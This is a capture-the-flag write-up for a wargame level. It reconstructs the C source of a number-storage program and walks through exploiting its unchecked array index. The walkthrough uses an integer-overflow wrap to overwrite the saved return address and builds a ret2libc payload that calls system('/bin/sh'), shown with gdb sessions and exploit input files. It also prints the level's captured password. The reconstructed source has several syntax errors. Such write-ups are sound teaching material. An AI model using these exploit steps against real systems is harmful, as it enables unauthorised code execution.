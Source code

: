 ## level07 (integer overflow)
```clike=
void clear_stdin()
{
    char curr;
    
    while(1)
    {
        curr = getchar();
        if (curr == '\n' || curr == -1)
            return ;
    }
}

unsigned int get_unum()
{
    unsigned int res;
    
    fflush(stdout);
    scanf("%u", &res);
    clear_stdin();
    return res;
}

int store_number( int *meat)
{    
    unsigned int num_input = 0;
    unsigned int idx_input = 0
    unsigned int temp1 = 0xaaaaaaab;
        
    printf("Number: ")
    num_input = get_unum();
    printf("Index: ")
    idx_input = get_unum();
    
    idx_input += temp1;
    temp1 = temp1 >> 1;
    unsigned int temp2 = temp1;
    temp2 *= 2;
    temp2 += temp1;
    unsigned int temp3 = 0xaaaaaaab - temp2;
    if(temp3 != 0 || num_input >> 0x18 != 0xb7)
    {
        meat[idx_input] = num_input;
        return 0;
    }
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    return 1;
}

int read_number(unsigned int *meat)
{
    int num_input = 0;
    
    printf("Index: ");
    num_input = get_unum() << 2 + meat;
    printf("Number at data[%u] is %u, ", num_input, meat[num_input]); // does << 2 + meat implicitly
    return 0;
}


int main(int argc, char **argv, char **envp)
{
    char **argv_stack = argv;
    char **envp_stack = enp;
    int op_ret = 0;
    char user_cmd[20] = 0; // 4 * 5
    int meat[16]; // 64 / 4
    
    memset(meat, 0, 16);
    while(argv_stack)
    {
        memset(*argv_stack, 0, strlen(*argv_stack));
        ++argv_stack;
    }
    
    while(envp_stack)
    {
        memset(*envp_stack, 0, strlen(*envp_stack));
        ++envp_stack;
    }
    
     puts("----------------------------------------------------\n"\
           "  Welcome to wil's crappy number storage service!   \n"\
           "----------------------------------------------------\n"\
           " Commands:                                          \n"\
           "    store - store a number into the data storage    \n"\
           "    read  - read a number from the data storage     \n"\
           "    quit  - exit the program                        \n"\
           "----------------------------------------------------\n"\
           "   wil has reserved some storage :>                 \n"\
           "----------------------------------------------------\n"\
           "\n");
    
    while(1)
    {
        op_ret = 1；
        printf("Input command: ");
        fgets(user_cmd, 20, stdin);
        user_cmd[strcspn(user_cmd, "\n")] = 0;
        
        if (!strncmp(user_cmd, "store", 5))
            op_ret = store_number(meat);
        else if (!strncmp(user_cmd, "read", 4))
            op_ret = read_number(meat);
        else if (strncmp(user_cmd, "quit", 4))
            break;
        
        if (!op_ret)
            printf("Completed %s command successfully", user_cmd);
        else 
            printf("Failed to do %s command\n", user_cmd);
       
       memset(user_cmd, 0, 20);
       op_ret = 1;
    }
    return 0;
}

```

This program allows is to **store numbers in an int buffer**. During the storing process, there is no check that the index is within the buffers size, they only check if it allowed other constraints such as some mathematical properties on the `idx_input` and `num_input`.

After some trials, we figurerd that the first constraint in `store_number(int )` checks if the index is a **not modulo of 3 `temp3 != 0`**. The second constraint checks if the number input is not `3070230528`. If any of those constraints are true, the number is written into the buffer at `meat[index] = input`. 

Since they dont do index size checking, we are able to segfault the program if we provide a faulty index.

![image](https://hackmd.io/_uploads/SJiut0yw6.png)

To determind the offset to the EIP, we try to input a test value and inspect the memory layout of the program.

```
cat << EOF > /tmp/level07
store
286331153
1
quit
EOF

gdb ./level07
b *0x80486ce
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```
As we can see, `meat` at index 1 is at `0xffffd548`. And the EIP is at `0xffffd70c`. We are able to overwrite the EIP since the **EIP address is > the buffer address**. With this , we are able to find the offset which is `70c - 548 = 1C4 or 452 in base 10`.

```
(gdb) x/10x $eax
0xffffd548:     0x11111111      0x00000000      0x00000000      0x00000000
0xffffd558:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd568:     0x00000000      0x00000000
...
...

(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x80488ef in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
```

The index we need to write to will be `452 / 4 = 113`. We can test this out
As we can see, we are 4 bytes before the EIP address. However, to actually overwrite the EIP, we need to input as index `114`, which is not allowed by the function. 
```
cat << EOF > /tmp/level07
store
286331153
113
quit
EOF

gdb ./level07
b *0x80486ce
b *0x80488ef
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```
![image](https://hackmd.io/_uploads/rkWv71eDa.png)

To overcome this, we can use alternatives like **`2 * (UINT_MAX / 4) + 114` to overflow back to `114`** without actually using the number. As we can see, we have successfully overwritten the EIP with our desired value.

```
cat << EOF > /tmp/level07
store
286331153
2147483762
store
572662306
2147483764
quit
EOF

gdb ./level07
b *0x80486ce
b *0x80488ef
lay asm
focus cmd
tty /dev/pts/0
set disassembly-flavor intel
run < /tmp/level07
```

```
Breakpoint 2, 0x080488ef in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x80488ef in main; saved eip 0x11111111
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
  ```

Since we are able to ovewrite the address now, we should be able to overwrite it to an address which points to shellcode. We will be trying ret2libc for this. We needed the address for the `system()` function as well as `/bin/sh`. These information should be available in GDB. The address of `system()` is `0xf7e6aed0` and the address for "/bin/sh" is `0xf7f897ec` 

```
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```

We can generate our payload like so and able to retreive the password `7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC`
```
cat << EOF > /tmp/level07
store
4159090384
2147483762
store
4160264172
2147483764
quit
EOF

(cat /tmp/level07 ; cat) | ./level07
```

![image](https://hackmd.io/_uploads/SJXwO-xP6.png)

